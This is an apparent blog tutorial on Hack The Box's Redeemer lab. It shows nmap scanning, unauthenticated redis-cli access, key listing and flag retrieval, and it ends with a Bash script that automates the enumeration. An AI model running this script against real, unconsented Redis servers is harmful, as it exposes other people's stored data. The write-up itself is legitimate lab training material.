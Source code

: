 ```yaml
---
title: "Exploiting HTB’s ‘Redeemer’ Box with Redis Misconfiguration"
published: false
tags: [hackthebox, redis, pentesting, tutorial]
---
```


## Introduction

In this tutorial, we’ll exploit a publicly exposed Redis service on Hack The Box’s **Redeemer** machine. You’ll learn to:

- Discover Redis with `nmap`
- Interact with Redis using `redis-cli`
- List keys and extract values (including the flag)
- Automate the entire flow in a Bash script

## Prerequisites

- Basic Linux command‑line skills
- Kali Linux (or any distro with `nmap` & `redis-cli`)
- Active HTB VPN connection

---

## 1. Scan for Redis

First, identify the open Redis port:

```bash
nmap -p 6379 -sV 10.129.136.194 -oN nmap-6379.txt
```

<details>
<summary>Output snippet</summary>

```text
6379/tcp open  redis  Redis key-value store 5.0.7
```
</details>

![Nmap Redis Scan](https://raw.githubusercontent.com/keyfive5/obsidiansignal-htb-redeemer/main/screenshots/nmap-6379.png)

---

## 2. Connect & Inspect

Use `redis-cli` to connect and gather server info:

```bash
redis-cli -h 10.129.136.194 info | tee redis-info.txt
```

<details>
<summary>Key output</summary>

```text
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
</details>

![Redis INFO](https://raw.githubusercontent.com/keyfive5/obsidiansignal-htb-redeemer/main/screenshots/redis-info.png)

---

## 3. Retrieve the Flag

Select the database, list all keys, and get the flag:

```bash
redis-cli -h 10.129.136.194
> select 0
> keys *
1) "flag"
2) "temp"
3) "stor"
4) "numb"
> get flag
"03e1d2b376c37ab3f5319922053953eb"
```

![Flag Retrieval](https://raw.githubusercontent.com/keyfive5/obsidiansignal-htb-redeemer/main/screenshots/get-flag.png)

---

## 4. Automation Script

Save the following as `scripts/enum-redis.sh` to automate the process:

```bash
#!/usr/bin/env bash
# Usage: ./enum-redis.sh <TARGET_IP>

TARGET=$1

echo "[*] Scanning for Redis..."
nmap -p 6379 -sV $TARGET -oN nmap-6379.txt

echo "[*] Gathering Redis INFO..."
redis-cli -h $TARGET info | tee redis-info.txt

echo "[*] Listing keys..."
redis-cli -h $TARGET --raw keys '*' | tee keys.txt

echo "[*] Retrieving flag..."
FLAG=$(redis-cli -h $TARGET get flag)
echo "[*] Flag: $FLAG"
```

Run it with:

```bash
bash scripts/enum-redis.sh 10.129.136.194
```

---

## 5. Lessons Learned

- **Public Redis** installations often allow unauthenticated access by default.
- Always run `INFO` and `KEYS *` to enumerate available data.
- Automate repetitive enumeration tasks with simple Bash scripts.

---

## Conclusion & Next Steps

You’ve now owned HTB’s Redeemer box by exploiting a Redis misconfiguration in under five commands. Next, consider:

- Integrating Redis checks into your Recon automation.
- Exploring authenticated Redis attacks (ACLs, password brute‑forcing).
- Leveling up with lateral‑movement and persistence labs.

🔗 **Full write‑up & code:** https://github.com/keyfive5/obsidiansignal-htb-redeemer
